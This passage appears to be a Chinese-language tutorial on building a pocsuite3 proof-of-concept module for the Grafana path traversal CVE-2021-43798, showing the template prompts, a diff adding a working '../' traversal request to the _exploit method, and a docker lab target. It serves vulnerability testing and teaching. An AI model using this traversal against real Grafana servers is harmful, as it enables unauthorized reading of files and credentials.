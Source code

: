 Advisory URL (eg, https://www.seebug.org/vuldb/ssvid-99335) [https://www.seebug.org/vuldb/ssvid-99398]:
Vulnerability CVE number (eg, CVE-2021-22123) []: CVE-2021-43798
Vendor name (eg, Fortinet) []:
Product or component name (eg, FortiWeb) []: Grafana
Affected version (eg, <=6.4.0) []: <=8.3.0
Vendor homepage (eg, https://www.fortinet.com) []: https://grafana.com

0    Arbitrary File Read
1    Code Execution
2    Command Execution
3    Denial Of service
4    Information Disclosure
5    Login Bypass
6    Path Traversal
7    SQL Injection
8    SSRF
9    XSS

Vulnerability type, choose from above or provide (eg, 3) []: 0
Authentication Required (eg, yes) [no]: no
...
```  
  
根据公开的漏洞细节，  
修改   
_exploit  
 方法：  
  
```


     def _exploit(self, param=''):
-        if not self._check(dork=''):
+        if not self._check(dork='Grafana', allow_redirects=True):
             return False

-        headers = {'Content-Type': 'application/x-www-form-urlencoded'}
-        payload = 'a=b'
-        res = requests.post(self.url, headers=headers, data=payload)
+        res = requests.get(f'{self.url}/public/plugins/grafana/../../../../../../../..{param}')
         logger.debug(res.text)
         return res.text
```  
  
  
搭建靶场：docker run -it --rm -p 3000:3000 pocsuite3/cve-2021-43798  
  
  
verify 模式效果：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1MbPOQmM0ZvzkXgtdfHn4ZwqOoq7FrpEZhZdPRoue0Mg6UeLjn3tXbZnmk3VCSmZg5fPGGuSDibww/640?wx_fmt=png "")  
  
  
追加   
-o a.json  
 参数  
可以把结果保存为 JSON Lines 格式的文件。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1MbPOQmM0ZvzkXgtdfHn4Z4mQsMtB8CQKFV6nhcB7qmaf4RJ6FZmQwic7dA5hzfBsdrKZE14ibpic0A/640?wx_fmt=png "")  
  
  
```